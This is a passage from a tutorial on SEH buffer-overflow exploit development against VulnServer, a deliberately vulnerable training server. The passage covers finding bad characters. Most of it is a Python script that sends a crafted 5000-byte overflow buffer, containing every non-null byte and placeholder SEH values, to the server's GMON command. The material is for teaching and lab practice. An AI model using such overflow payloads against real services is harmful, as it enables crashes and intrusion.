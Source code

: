 

### Finding Bad Chars



I will not go into any explanation here to why we need to find bad chars as I did a pretty good job talking about it in [Part 1](https://m0chan.github.io/2019/08/20/Simple-Win32-Buffer-Overflow-EIP-Overwrite.html) so head over there. 



Let's use the simple script below to send a string of every single possible character through to **VulnServer** via the `GMON` command. Of course we will exclude the `\x00` character aka the **null-byte.**



```python
#!/usr/bin/python
import socket
import sys


nseh = "B"*4
seh = "C"*4


badchars = ("\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")


buffer = "A" * (3515-len(badchars))
print "[*] There are %s" %len(badchars) + " bad chars to test"
print "[*] Starting to Fuzz GMON with %s bytes" %len(buffer) + " A's"
buffer += badchars #All of badchars
buffer += nseh #BBBB
buffer += seh #CCCC
junk = "D"*(5000-len(buffer))
buffer += junk #Bunch of D"s to fill remaining space

print "[*] Starting to Fuzz GMON with everything containing %s bytes" %len(buffer)
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect(('bof.local',9999))
print "[*] Connected to bof.local on Port 9999"
s.send(('GMON /.:/' + buffer))
s.close()
print "[*] Finished Fuzzing GMON with %s bytes" %len(buffer)
```
